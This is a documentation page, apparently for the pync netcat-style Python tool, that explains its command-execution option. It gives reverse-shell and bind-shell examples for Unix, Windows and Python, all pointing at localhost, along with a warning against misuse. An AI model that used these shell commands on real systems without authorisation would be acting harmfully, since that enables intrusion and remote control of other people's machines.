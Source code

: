 ========================
Remote Command Execution
========================

Using the `-c <https://pync.readthedocs.io/en/latest/options/execute.html>`_
option, we can execute a command and connect it's stdin/stdout/stderr
to the network socket.

For example, we could create an interactive shell
to execute commands on a remote machine.

.. warning::
   | Please BE CAREFUL with this functionality as it could expose your system to attackers.
   | Also, please DO NOT use this functionality for evil purposes.

A Simple Reverse Shell
======================

1. Create a server that will listen for the reverse shell connection:

.. tab:: Unix

   .. code-block:: sh
   
      pync -l localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -l localhost 8000

.. tab:: Python

   .. code-block:: python
   
      from pync import pync
      pync('-l localhost 8000')

2. On another console, connect back to our server and
   execute the shell:

.. tab:: Unix

   .. code-block:: sh

      pync -c "PS1='$ ' sh -i" localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -c "cmd /q" localhost 8000

.. tab:: Python

   .. code-block:: python

      # reverse_shell.py
      import platform
      from pync import pync

      command = "PS1='$ ' sh -i"
      if platform.system() == 'Windows':
          command = 'cmd /q'

      pync('-c {} localhost 8000'.format(command))

There should now be a prompt on the server console that
allows you to remotely execute commands on the client machine.

A Simple Bind Shell
===================

1. Create a server on port 8000 that executes the shell upon
   connection:

.. tab:: Unix

   .. code-block:: sh

      pync -c "PS1='$ ' sh -i" -l localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -c "cmd /q" -l localhost 8000

.. tab:: Python

   .. code-block:: python

      # bind_shell.py
      import platform
      from pync import pync

      command = "PS1='$ ' sh -i"
      if platform.system() == 'Windows':
          command = 'cmd /q'

      pync('-c {} -l localhost 8000'.format(command))

2. On another console, connect to the server to
   interact with the shell:

.. tab:: Unix

   .. code-block:: sh

      pync localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync localhost 8000

.. tab:: Python

   .. code-block:: python

      from pync import pync
      pync('localhost 8000')

.. raw:: html

   <br>
   <hr>

:SEE ALSO:

* :doc:`../options/execute`
* :doc:`../options/listen`

